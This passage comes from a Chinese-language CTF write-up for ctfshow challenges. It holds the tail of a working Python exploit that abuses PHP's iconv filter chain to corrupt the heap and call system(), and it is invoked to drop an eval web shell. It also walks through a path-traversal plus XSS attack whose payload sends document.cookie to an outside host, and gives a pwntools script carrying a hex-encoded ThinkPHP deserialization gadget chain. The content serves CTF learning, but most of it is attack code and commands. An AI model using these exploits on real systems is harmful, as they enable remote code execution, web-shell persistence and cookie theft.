        we can make PHP allocate chunks whereever we want. In addition, its custom_heap
        field contains pointers to hook functions for emalloc, efree, and erealloc
        (similarly to malloc_hook, free_hook, etc. in the libc). We overwrite them and
        then overwrite the use_custom_heap flag to make PHP use these function pointers
        instead. We can now do our favorite CTF technique and get a call to
        system(<chunk>).
        We make sure that the "system" command kills the current process to avoid other
        system() calls with random chunk data, leading to undefined behaviour.

        The pad blocks just "pad" our allocations so that even if the heap of the
        process is in a random state, we still get contiguous, in order chunks for our
        exploit.

        Therefore, the whole process described here CANNOT crash. Everything falls
        perfectly in place, and nothing can get in the middle of our allocations.
        """

        LIBC = self.info["libc"]
        ADDR_EMALLOC = LIBC.symbols["__libc_malloc"]
        ADDR_EFREE = LIBC.symbols["__libc_system"]
        ADDR_EREALLOC = LIBC.symbols["__libc_realloc"]

        ADDR_HEAP = self.info["heap"]
        ADDR_FREE_SLOT = ADDR_HEAP + 0x20
        ADDR_CUSTOM_HEAP = ADDR_HEAP + 0x0168

        ADDR_FAKE_BIN = ADDR_FREE_SLOT - 0x10

        CS = 0x100

        # Pad needs to stay at size 0x100 at every step
        pad_size = CS - 0x18
        pad = b"\x00" * pad_size
        pad = chunked_chunk(pad, len(pad) + 6)
        pad = chunked_chunk(pad, len(pad) + 6)
        pad = chunked_chunk(pad, len(pad) + 6)
        pad = compressed_bucket(pad)

        step1_size = 1
        step1 = b"\x00" * step1_size
        step1 = chunked_chunk(step1)
        step1 = chunked_chunk(step1)
        step1 = chunked_chunk(step1, CS)
        step1 = compressed_bucket(step1)

        # Since these chunks contain non-UTF-8 chars, we cannot let it get converted to
        # ISO-2022-CN-EXT. We add a `0\n` that makes the 4th and last dechunk "crash"

        step2_size = 0x48
        step2 = b"\x00" * (step2_size + 8)
        step2 = chunked_chunk(step2, CS)
        step2 = chunked_chunk(step2)
        step2 = compressed_bucket(step2)

        step2_write_ptr = b"0\n".ljust(step2_size, b"\x00") + p64(ADDR_FAKE_BIN)
        step2_write_ptr = chunked_chunk(step2_write_ptr, CS)
        step2_write_ptr = chunked_chunk(step2_write_ptr)
        step2_write_ptr = compressed_bucket(step2_write_ptr)

        step3_size = CS

        step3 = b"\x00" * step3_size
        assert len(step3) == CS
        step3 = chunked_chunk(step3)
        step3 = chunked_chunk(step3)
        step3 = chunked_chunk(step3)
        step3 = compressed_bucket(step3)

        step3_overflow = b"\x00" * (step3_size - len(BUG)) + BUG
        assert len(step3_overflow) == CS
        step3_overflow = chunked_chunk(step3_overflow)
        step3_overflow = chunked_chunk(step3_overflow)
        step3_overflow = chunked_chunk(step3_overflow)
        step3_overflow = compressed_bucket(step3_overflow)

        step4_size = CS
        step4 = b"=00" + b"\x00" * (step4_size - 1)
        step4 = chunked_chunk(step4)
        step4 = chunked_chunk(step4)
        step4 = chunked_chunk(step4)
        step4 = compressed_bucket(step4)

        # This chunk will eventually overwrite mm_heap->free_slot
        # it is actually allocated 0x10 bytes BEFORE it, thus the two filler values
        step4_pwn = ptr_bucket(
            0x200000,
            0,
            # free_slot
            0,
            0,
            ADDR_CUSTOM_HEAP,  # 0x18
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            ADDR_HEAP,  # 0x140
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            size=CS,
        )

        step4_custom_heap = ptr_bucket(
            ADDR_EMALLOC, ADDR_EFREE, ADDR_EREALLOC, size=0x18
        )

        step4_use_custom_heap_size = 0x140

        COMMAND = self.command
        COMMAND = f"kill -9 $PPID; {COMMAND}"
        if self.sleep:
            COMMAND = f"sleep {self.sleep}; {COMMAND}"
        COMMAND = COMMAND.encode() + b"\x00"

        assert (
                len(COMMAND) <= step4_use_custom_heap_size
        ), f"Command too big ({len(COMMAND)}), it must be strictly inferior to {hex(step4_use_custom_heap_size)}"
        COMMAND = COMMAND.ljust(step4_use_custom_heap_size, b"\x00")

        step4_use_custom_heap = COMMAND
        step4_use_custom_heap = qpe(step4_use_custom_heap)
        step4_use_custom_heap = chunked_chunk(step4_use_custom_heap)
        step4_use_custom_heap = chunked_chunk(step4_use_custom_heap)
        step4_use_custom_heap = chunked_chunk(step4_use_custom_heap)
        step4_use_custom_heap = compressed_bucket(step4_use_custom_heap)

        pages = (
                step4 * 3
                + step4_pwn
                + step4_custom_heap
                + step4_use_custom_heap
                + step3_overflow
                + pad * self.pad
                + step1 * 3
                + step2_write_ptr
                + step2 * 2
        )

        resource = compress(compress(pages))
        resource = b64(resource)
        resource = f"data:text/plain;base64,{resource.decode()}"

        filters = [
            # Create buckets
            "zlib.inflate",
            "zlib.inflate",

            # Step 0: Setup heap
            "dechunk",
            "convert.iconv.latin1.latin1",

            # Step 1: Reverse FL order
            "dechunk",
            "convert.iconv.latin1.latin1",

            # Step 2: Put fake pointer and make FL order back to normal
            "dechunk",
            "convert.iconv.latin1.latin1",

            # Step 3: Trigger overflow
            "dechunk",
            "convert.iconv.UTF-8.ISO-2022-CN-EXT",

            # Step 4: Allocate at arbitrary address and change zend_mm_heap
            "convert.quoted-printable-decode",
            "convert.iconv.latin1.latin1",
        ]
        filters = "|".join(filters)
        path = f"php://filter/read={filters}/resource={resource}"

        return path

    @inform("Triggering...")
    def exploit(self) -> None:
        path = self.build_exploit_path()
        start = time.time()

        try:
            self.remote.send(path)
        except (ConnectionError, ChunkedEncodingError):
            pass

        msg_print()

        if not self.sleep:
            msg_print("    [b white on black] EXPLOIT [/][b white on green] SUCCESS [/] [i](probably)[/]")
        elif start + self.sleep <= time.time():
            msg_print("    [b white on black] EXPLOIT [/][b white on green] SUCCESS [/]")
        else:
            # Wrong heap, maybe? If the exploited suggested others, use them!
            msg_print("    [b white on black] EXPLOIT [/][b white on red] FAILURE [/]")

        msg_print()


def compress(data) -> bytes:
    """Returns data suitable for `zlib.inflate`.
    """
    # Remove 2-byte header and 4-byte checksum
    return zlib.compress(data, 9)[2:-4]


def b64(data: bytes, misalign=True) -> bytes:
    payload = base64.encode(data)
    if not misalign and payload.endswith("="):
        raise ValueError(f"Misaligned: {data}")
    return payload.encode()


def compressed_bucket(data: bytes) -> bytes:
    """Returns a chunk of size 0x8000 that, when dechunked, returns the data."""
    return chunked_chunk(data, 0x8000)


def qpe(data: bytes) -> bytes:
    """Emulates quoted-printable-encode.
    """
    return "".join(f"={x:02x}" for x in data).upper().encode()


def ptr_bucket(*ptrs, size=None) -> bytes:
    """Creates a 0x8000 chunk that reveals pointers after every step has been ran."""
    if size is not None:
        assert len(ptrs) * 8 == size
    bucket = b"".join(map(p64, ptrs))
    bucket = qpe(bucket)
    bucket = chunked_chunk(bucket)
    bucket = chunked_chunk(bucket)
    bucket = chunked_chunk(bucket)
    bucket = compressed_bucket(bucket)

    return bucket


def chunked_chunk(data: bytes, size: int = None) -> bytes:
    """Constructs a chunked representation of the given chunk. If size is given, the
    chunked representation has size `size`.
    For instance, `ABCD` with size 10 becomes: `0004\nABCD\n`.
    """
    # The caller does not care about the size: let's just add 8, which is more than
    # enough
    if size is None:
        size = len(data) + 8
    keep = len(data) + len(b"\n\n")
    size = f"{len(data):x}".rjust(size - keep, "0")
    return size.encode() + b"\n" + data + b"\n"


@dataclass
class Region:
    """A memory region."""

    start: int
    stop: int
    permissions: str
    path: str

    @property
    def size(self) -> int:
        return self.stop - self.start


Exploit()
~~~

python3 exp.py url "echo '<?=@eval(\$_POST[0]);?>' > 1.php"


ctfshow{105c9b5a-5bd3-4f6d-aa53-3d6763df9f98}

其中mb_strpos与mb_substr执行差异黄河流域也考过，也是同一师傅出题

## NewerFileDetector

这题目代码审计给我审爽了啊

这里给了bot.py和app.py，审计代码

bot.py

```python
from selenium import webdriver
import time
import os

# bot nodejs puppter selenium
flag = os.getenv("flag") if os.getenv("flag") is not None else "flag{test}"

option = webdriver.ChromeOptions()
option.add_argument('--headless')
option.add_argument('--no-sandbox')
option.add_argument('--disable-logging')
option.add_argument('--disable-dev-shm-usage')

browser = webdriver.Chrome(options=option)
cookie = {'name': 'flag', 'value': flag, 'domain':'localhost','httpOnly': False}

def visit(link):
	try:
		browser.get("http://localhost:5050/check") #检测是否为vip
		browser.add_cookie(cookie)
		page_source = browser.page_source
		print(page_source)
		if "VIP" not in page_source:
			return "NONONO" # pass
		print(cookie)
		url = "http://localhost:5050/share?file=" + link
		if ".." in url:
			return "Get out!"
		browser.get(url)
		time.sleep(1)
		browser.quit()
		print("success")
		return "OK"
	except Exception as e:
		print(e)
		return "you broke the server,get out!"
```

审计bot.py，发现bot行为是先通过check检测是否为VIP，是的话访问http://localhost:5050/share?file={link}，其中cookie的domain设置为了localhost，也就是只有本地访问才能拿到flag，其中httpOnly，表示可以直接通过xss的document.cookie拿到flag

先分点：

- 覆盖vip.json使check为vip
- magika代码审计
- xss得到flag

app.py

```python
from flask import Flask,request,session
import magika
import uuid
import json
import os
from bot import visit as bot_visit
import ast

app = Flask(__name__)
app.secret_key = str(uuid.uuid4())
app.static_folder = 'public/'
vip_user = "vip"
vip_pwd = str(uuid.uuid4())
curr_dir = os.path.dirname(os.path.abspath(__file__))
CHECK_FOLDER = os.path.join(curr_dir,"check")
USER_FOLDER = os.path.join(curr_dir,"public/user")
mg = magika.Magika()    #深度学习

def isSecure(file_type):
	D_extns = ["json",'py','sh', "html"]
	if file_type in D_extns:
		return False
	return True

@app.route("/login",methods=['GET','POST'])
def login():
	if session.get("isSVIP"):
		return "logined"
	if request.method == "GET":
		return "input your username and password plz"
	elif request.method == "POST":
		try:
			user = request.form.get("username").strip()
			pwd = request.form.get("password").strip()
			if user == vip_user and pwd == vip_pwd:
				session["isSVIP"] = "True"
			else:
				session["isSVIP"] = "False"
			# 写入硬盘中，方便bot验证。
			file = os.path.join(CHECK_FOLDER,"vip.json")
			with open(file,"w") as f:
				json.dump({k: v for k, v in session.items()},f)
				f.close()
			return f"{user} login success"
		except:
			return "you broke the server,get out!"

@app.route("/upload",methods = ["POST"])      
def upload():   
	try:
		content = request.form.get("content").strip()
		name = request.form.get("name").strip()
		file_type = mg.identify_bytes(content.encode()).output.ct_label #判断文件内容
		if isSecure(file_type):
			file = os.path.join(USER_FOLDER,name)
			with open(file,"w") as f:
				f.write(content)
			f.close()
			return "ok,share your link to bot: /visit?link=user/"+ name
		return "black!"
	except:
		return "you broke the server,fuck out!"

@app.route('/')
def index():
	return app.send_static_file('index.html')

@app.route('/visit')
def visit():
	link = request.args.get("link")
	return bot_visit(link)

@app.route('/share')
def share():
	file = request.args.get("file")
	return app.send_static_file(file)

@app.route("/clear",methods=['GET'])
def clear():
	session.clear()
	return "session clear success"

@app.route("/check",methods=['GET'])
def check():
	path = os.path.join(CHECK_FOLDER,"vip.json")             #join
	if os.path.exists(path):
		content = open(path,"r").read()
		try:
			isSVIP = ast.literal_eval(json.loads(content)["isSVIP"])
		except:
			isSVIP = False
		return "VIP" if isSVIP else "GUEST"
	else:
		return "GUEST"

if __name__ == "__main__":
	app.run("0.0.0.0",5050)
```

/check路由作用是读取vip.json的内容并判断是否为VIP

```python
@app.route("/check",methods=['GET'])
def check():
	path = os.path.join(CHECK_FOLDER,"vip.json")             #join
	if os.path.exists(path):
		content = open(path,"r").read()
		try:
			isSVIP = ast.literal_eval(json.loads(content)["isSVIP"])
		except:
			isSVIP = False
		return "VIP" if isSVIP else "GUEST"
	else:
		return "GUEST"
```

我们查看/login路由

```python
@app.route("/login",methods=['GET','POST'])
def login():
	if session.get("isSVIP"):
		return "logined"
	if request.method == "GET":
		return "input your username and password plz"
	elif request.method == "POST":
		try:
			user = request.form.get("username").strip()
			pwd = request.form.get("password").strip()
			if user == vip_user and pwd == vip_pwd:
				session["isSVIP"] = "True"
			else:
				session["isSVIP"] = "False"
			# 写入硬盘中，方便bot验证。
			file = os.path.join(CHECK_FOLDER,"vip.json")
			with open(file,"w") as f:
				json.dump({k: v for k, v in session.items()},f)
				f.close()
			return f"{user} login success"
		except:
			return "you broke the server,get out!"
```

登录成功后会将isSVIP的session值写入/app/check/vip.json，但是vip_pwd未知，始终为False

我们接着看/upload路由

```python
@app.route("/upload",methods = ["POST"])      
def upload():   
	try:
		content = request.form.get("content").strip()
		name = request.form.get("name").strip()
		file_type = mg.identify_bytes(content.encode()).output.ct_label #判断文件内容
		if isSecure(file_type):
			file = os.path.join(USER_FOLDER,name)
			with open(file,"w") as f:
				f.write(content)
			f.close()
			return "ok,share your link to bot: /visit?link=user/"+ name
		return "black!"
	except:
		return "you broke the server,fuck out!"
```

这里name可控，我们可以通过../将绝对路径上传变成任意文件上传，从而将/app/check/vip.json覆盖掉。但是这里对上传的content有限制，通过大模型identify_bytes检测后若预测值不是["json",'py','sh', "html"] 即可上传文件。

这里我们跟进identify_bytes


我们注意到，若是上传的内容长度小于_min_file_size_for_dl，则会调用_get_result_of_few_bytes，跟进_get_result_of_few_bytes


发现返回的是 ContentType.GENERIC_TEXT，硬编码也就是txt

我们接着跟进_min_file_size_for_dl



发现这里是访问/config/magika_config.json，我们打开


"min_file_size_for_dl": 16

也就是上传的content内容小于16即可绕过黑名单，使返回的为txt

我们回到/login路由，session["isSVIP"] = "True"，所以我们得构造{"isSVIP":"True"}覆盖掉/app/check/vip.json

但是这里正好为17，magika会预测这里为json

我们继续查看/check路由

```python
	if os.path.exists(path):
		content = open(path,"r").read()
		try:
			isSVIP = ast.literal_eval(json.loads(content)["isSVIP"])
		except:
			isSVIP = False
		return "VIP" if isSVIP else "GUEST"
	else:
		return "GUEST"
```

其中return "VIP" if isSVIP else "GUEST"，也就是如果isSVIP为True，即值为1也可以通过这个判断

我们上传{"isSVIP":"1"}绕过magika 的检测，同时让 ast.literal_eval 判定为 SVIP 

我们访问upload路由

```
/upload

POST:
name=../../../check/vip.json&content={"isSVIP":"1"}
```

我们查看/check路由，可以看到返回了VIP


我们上传一个html让bot访问该网页，触发xss将cookie传出

```
/upload


POST:
name=1.html&content={script}fetch("http://your-ip:9999/?flag="+document.cookie){/script}
```


我们访问/visit?link=user/1.html

在vps上python3 -m http.server 9999



得到flag:

ctfshow{63ad0925-ecd0-4d6e-8ca8-7691c40cc3cb}

## SendMessage

直接上官方脚本

```python
from pwn import *
import time
#Author: ctfshow/h1xa
#Description: read flag from /f* 

address = "pwn.challenge.ctf.show"
port = 28202

data = b'\x50\x48\x50\x5F\x53\x4D\x00\x00\x28\x00\x00\x00\x00\x00\x00\x00\x18\x03\x00\x00\x00\x00\x00\x00\xF8\x23\x00\x00\x00\x00\x00\x00\x10\x27\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xCF\x02\x00\x00\x00\x00\x00\x00\xF0\x02\x00\x00\x00\x00\x00\x00\x4F\x3A\x32\x38\x3A\x22\x74\x68\x69\x6E\x6B\x5C\x72\x6F\x75\x74\x65\x5C\x52\x65\x73\x6F\x75\x72\x63\x65\x52\x65\x67\x69\x73\x74\x65\x72\x22\x3A\x31\x3A\x7B\x73\x3A\x38\x3A\x22\x72\x65\x73\x6F\x75\x72\x63\x65\x22\x3B\x4F\x3A\x31\x37\x3A\x22\x74\x68\x69\x6E\x6B\x5C\x6D\x6F\x64\x65\x6C\x5C\x50\x69\x76\x6F\x74\x22\x3A\x37\x3A\x7B\x73\x3A\x39\x3A\x22\x00\x2A\x00\x73\x75\x66\x66\x69\x78\x22\x3B\x73\x3A\x34\x3A\x22\x68\x31\x78\x61\x22\x3B\x73\x3A\x38\x3A\x22\x00\x2A\x00\x74\x61\x62\x6C\x65\x22\x3B\x4F\x3A\x31\x37\x3A\x22\x74\x68\x69\x6E\x6B\x5C\x6D\x6F\x64\x65\x6C\x5C\x50\x69\x76\x6F\x74\x22\x3A\x37\x3A\x7B\x73\x3A\x39\x3A\x22\x00\x2A\x00\x73\x75\x66\x66\x69\x78\x22\x3B\x73\x3A\x34\x3A\x22\x68\x31\x78\x61\x22\x3B\x73\x3A\x38\x3A\x22\x00\x2A\x00\x74\x61\x62\x6C\x65\x22\x3B\x4E\x3B\x73\x3A\x39\x3A\x22\x00\x2A\x00\x61\x70\x70\x65\x6E\x64\x22\x3B\x61\x3A\x31\x3A\x7B\x73\x3A\x34\x3A\x22\x41\x41\x41\x41\x22\x3B\x73\x3A\x34\x3A\x22\x42\x42\x42\x42\x22\x3B\x7D\x73\x3A\x37\x3A\x22\x00\x2A\x00\x6A\x73\x6F\x6E\x22\x3B\x61\x3A\x31\x3A\x7B\x69\x3A\x30\x3B\x73\x3A\x34\x3A\x22\x42\x42\x42\x42\x22\x3B\x7D\x73\x3A\x31\x31\x3A\x22\x00\x2A\x00\x77\x69\x74\x68\x41\x74\x74\x72\x22\x3B\x61\x3A\x31\x3A\x7B\x73\x3A\x34\x3A\x22\x42\x42\x42\x42\x22\x3B\x61\x3A\x31\x3A\x7B\x73\x3A\x32\x3A\x22\x41\x41\x22\x3B\x73\x3A\x36\x3A\x22\x73\x79\x73\x74\x65\x6D\x22\x3B\x7D\x7D\x73\x3A\x37\x3A\x22\x00\x2A\x00\x64\x61\x74\x61\x22\x3B\x61\x3A\x31\x3A\x7B\x73\x3A\x34\x3A\x22\x42\x42\x42\x42\x22\x3B\x61\x3A\x31\x3A\x7B\x73\x3A\x32\x3A\x22\x41\x41\x22\x3B\x73\x3A\x33\x39\x3A\x22\x74\x61\x63\x20\x2F\x66\x2A\x20\x3E\x2F\x76\x61\x72\x2F\x77\x77\x77\x2F\x68\x74\x6D\x6C\x2F\x70\x75\x62\x6C\x69\x63\x2F\x69\x6E\x64\x65\x78\x2E\x70\x68\x70\x22\x3B\x7D\x7D\x73\x3A\x31\x32\x3A\x22\x00\x2A\x00\x6A\x73\x6F\x6E\x41\x73\x73\x6F\x63\x22\x3B\x62\x3A\x31\x3B\x7D\x73\x3A\x39\x3A\x22\x00\x2A\x00\x61\x70\x70\x65\x6E\x64\x22\x3B\x61\x3A\x31\x3A\x7B\x73\x3A\x34\x3A\x22\x41\x41\x41\x41\x22\x3B\x73\x3A\x34\x3A\x22\x42\x42\x42\x42\x22\x3B\x7D\x73\x3A\x37\x3A\x22\x00\x2A\x00\x6A\x73\x6F\x6E\x22\x3B\x61\x3A\x31\x3A\x7B\x69\x3A\x30\x3B\x73\x3A\x34\x3A\x22\x42\x42\x42\x42\x22\x3B\x7D\x73\x3A\x31\x31\x3A\x22\x00\x2A\x00\x77\x69\x74\x68\x41\x74\x74\x72\x22\x3B\x61\x3A\x31\x3A\x7B\x73\x3A\x34\x3A\x22\x42\x42\x42\x42\x22\x3B\x61\x3A\x31\x3A\x7B\x73\x3A\x32\x3A\x22\x41\x41\x22\x3B\x73\x3A\x36\x3A\x22\x73\x79\x73\x74\x65\x6D\x22\x3B\x7D\x7D\x73\x3A\x37\x3A\x22\x00\x2A\x00\x64\x61\x74\x61\x22\x3B\x61\x3A\x31\x3A\x7B\x73\x3A\x34\x3A\x22\x42\x42\x42\x42\x22\x3B\x61\x3A\x31\x3A\x7B\x73\x3A\x32\x3A\x22\x41\x41\x22\x3B\x73\x3A\x33\x39\x3A\x22\x74\x61\x63\x20\x2F\x66\x2A\x20\x3E\x2F\x76\x61\x72\x2F\x77\x77\x77\x2F\x68\x74\x6D\x6C\x2F\x70\x75\x62\x6C\x69\x63\x2F\x69\x6E\x64\x65\x78\x2E\x70\x68\x70\x22\x3B\x7D\x7D\x73\x3A\x31\x32\x3A\x22\x00\x2A\x00\x6A\x73\x6F\x6E\x41\x73\x73\x6F\x63\x22\x3B\x62\x3A\x31\x3B\x7D\x7D\x00'

io = remote(address, port)

# context(arch='amd64', os='linux' , log_level='debug')
io.recvuntil(b'Exit\n')
io.sendline(b'1')
io.recvuntil(b'message:')
io.sendline(data)
io.recvuntil(b'Exit\n')
io.sendline(b'3')
time.sleep(3)
io.recvuntil(b'Exit\n')
io.sendline(b'3')
io.interactive()

```

得到flag



ctfshow{6a810db2-4810-4043-8183-b24999c0ddcd}

